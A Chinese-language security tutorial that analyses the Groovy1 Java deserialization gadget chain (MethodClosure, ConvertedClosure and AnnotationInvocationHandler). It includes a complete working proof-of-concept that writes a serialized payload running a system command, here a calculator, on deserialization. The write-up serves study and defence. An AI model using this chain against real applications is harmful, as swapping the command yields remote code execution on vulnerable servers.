



**Groovy** 是一种基于 JVM（Java 虚拟机）运行的动态语言，其语法兼容 Java，同时又加入了很多现代脚本语言的特性。虽然它不是 Java 脚本，但确实与 Java 紧密相关，并经常被用作 Java 的补充。

-------------------------------------------------以上和安全都没有关系(doge 0.0)-----------------------------------------------------

对于安全研究来说，可以认为Groovy就是一个Java的扩展包，加入Groovy依赖后，这就是一个依赖包，和apache common collections没有什么区别。

## 环境准备

JDK8u421	，这条链对JDK并没有什么要求，主要还是Groovy导致的漏洞

pom.xml加入以下依赖

Groovy(1.7.0-2.4.3)

```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy</artifactId>
    <version>2.3.9</version>
</dependency>
```

## 漏洞分析

### MethodClosure

在 Groovy 中，`MethodClosure` 是一个特殊的闭包，它绑定了一个对象的方法，可以将该方法以闭包的形式传递和调用。`MethodClosure` 的作用是将某个对象的方法封装为闭包，以便可以在 Groovy 的上下文中灵活使用（例如用于回调、集合操作等）。

MethodClosure对String类型参数做了封装，提供了一个execute方法，比如在Groovy脚本中可以这么来使用：

在IDEA中右键`package`->`New` ->`Groovy Class` -> `input ClassName`

```groovy
package groovy
class Groovy2 {
    static void main(String[] args) {
        "calc".execute();
        println("whoami".execute().text)
    }
}
```

执行这份代码可以得到如下结果：



实际上Groovy的execute()方法的底层就是`Runtime.getRuntime.exec("calc")`，如果你在Java脚本中可以这么用execute方法，你需要使用MethodClosure来完成对String的execute调用，代码如下：

```java
import org.codehaus.groovy.runtime.MethodClosure;
public class Groovy1 {
    public static void main(String[] args) throws Exception {
        String command = "calc";
        MethodClosure execute = new MethodClosure(command, "execute");
        execute.call();
    }
}
```

运行如下，弹个计算器。



### ConvertedClosure

`ConvertedClosure` 是 Groovy 提供的一种内部实现机制，用于将 Groovy 的闭包 (`Closure`) 动态地转换为符合特定 Java 接口的实现类。它通过动态代理的方式，使得 Groovy 闭包能够用作 Java 方法调用的回调，简化了 Groovy 与 Java 的集成工作。

`ConvertedClosure`中的源码并不多，直接拿过来分析一下吧。

```java
// ConversionHandler是一个抽象类，继承了动态代理用到的InvocationHandler
// 虽然这里也继承了Serializable，但是并没有重写readObject方法，所以这个类是没法利用的
public abstract class ConversionHandler implements InvocationHandler, Serializable {
    // 初始化一个Object
    private Object delegate;
    public ConversionHandler(Object delegate) {
        if (delegate == null) throw new IllegalArgumentException("delegate must not be null");
        this.delegate = delegate;
    }
    
    // 动态代理接口的invoke方法实现
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        VMPlugin plugin = VMPluginFactory.getPlugin();
        if (plugin.getVersion()>=7 && isDefaultMethod(method)) {
            Object handle = handleCache.get(method);
            if (handle == null) {
                handle = plugin.getInvokeSpecialHandle(method, proxy);
                handleCache.put(method, handle);
            }
            return plugin.invokeHandle(handle, args);
        }
	    // checkMethod中是这么写的: Object.class.equals(method.getDeclaringClass())
        // 判断method是否是继承自 Object 类的默认方法。
        if (!checkMethod(method)) {
            try {
                // 如果method不是Object类中的默认方法则调用invokeCustom方法
                return invokeCustom(proxy, method, args);
            } catch (GroovyRuntimeException gre) {
                throw ScriptBytecodeAdapter.unwrap(gre);
            }
        }

        try {
            return method.invoke(this, args);
        } catch (InvocationTargetException ite) {
            throw ite.getTargetException();
        }
    }
    	// 这是一个抽象方法，具体的方法实现在实现类中
        public abstract Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable;    
}
// ConvertedClosure是ConversionHandler的实现类，其实最重要的就是实现了invokeCustom方法
// 这里也继承了Serializable接口，但是因为没有重写readObject方法，所以也是无法攻击的
public class ConvertedClosure extends ConversionHandler implements Serializable {
    private String methodName;
    private static final long serialVersionUID = 1162833713450835227L;
	// 构造函数中处理了两个参数分别是
    public ConvertedClosure(Closure closure, String method) {
        super(closure);
        this.methodName = method;
    }
    // 如果不传递methodName的情况，methodName==null
    // 那么invokeCustom方法在调用时会直接执行
    public ConvertedClosure(Closure closure) {
        this(closure,null);
    }
    
    // 这个方法会被ConversionHandler中的invoke实现方法中调用
    // 如果你觉得太绕的话，其实就把invokeCustom当成是动态代理中的invoke方法
    public Object invokeCustom(Object proxy, Method method, Object[] args)
    throws Throwable {
        if (methodName!=null && !methodName.equals(method.getName())) return null;
        // 获取到一开始传递的Closure对象，然后调用class方法，并传递参数(args)
        return ((Closure) getDelegate()).call(args);
    }

}
```

### 封装动态代理

其实看完`ConvertedClosure`得到的结论就是，需要一个可以调用动态代理invoke方法的地方，那思路也很简单了。就是为`ConvertedClosure`再套一层动态代理(`sun.reflect.annotation.AnnotationInvocationHandler`)，代理一个Map，当调用Map中的方法时，则可以触发`ConvertedClosure`中的invoke方法，然后命中`invokeCustom`方法。

最终效果就是就是调用`((Closure) getDelegate()).call(args);`

如果你对动态代理的概念不太理解，可以参考我以前写的文章: [静态代理 & 动态代理](../../A%20-%20JAVA基础/JAVA动态代理&静态代理/main.md)

## POC

```java
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;

public class Groovy1 {

    private static final String serialFileName = "groovy1.ser";
    public static void main(String[] args) throws Exception {
        String command = "calc";
        MethodClosure execute = new MethodClosure(command, "execute");
        // final ConvertedClosure closure = new ConvertedClosure(execute, "entrySet");
        // 这两种写法都是可以的，这是因为在AnnotationInvocationHandler的readObject方法中
        // 首先调用到的Map的方法就是entrySet
        // ysoserial采用的是ConvertedClosure(execute, "entrySet");
        // 这可能是因为ysoserial想避免某些特殊的情况发生吧.....或者说只是想提醒我们一下这个方法而已
        final ConvertedClosure closure = new ConvertedClosure(execute, null);
        // 为closure创建一个动态代理
        Map map = (Map) Proxy.newProxyInstance(Groovy1.class.getClassLoader(), new Class[]{Map.class}, closure);
        // 创建一个AnnotationInvocationHandler并将其指向Map这个动态代理实现
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Override.class, map);
        // 这里可能有点难以理解，嵌套了两层动态代理才真正调用到了具体的方法
        serialize(handler);
        verify();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

运行POC效果如下：



## 调用链

浅浅分析一下`sun.reflect.annotation.AnnotationInvocationHandler`中的调用逻辑吧。

```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private final Map<String, Object> memberValues;
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;
        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }
        Map var3 = var2.memberTypes();
        // 
    	// Map(Proxy)在readObject中第一个触发的方法就是entrySet，
        // 此时的Map是一个Proxy，所以会触发invoke方法，这里值的其实也就是ConversionHandler中的invoke方法
        Iterator var4 = this.memberValues.entrySet().iterator();
    }
}

```

这里是纠正了ysoserial中的调用链，ysoserial中的调用链好像给的不太对。

```java
AnnotationInvocationHandler.readObject()
	memberValues.entrySet()	// (Map Proxy)
    	ConversionHandler.invoke()
    		ConvertedClosure.invokeCustom()
    			Closure.call()
    				.......
                        Method.invoke()
                            Runtime.exec()
    	
```

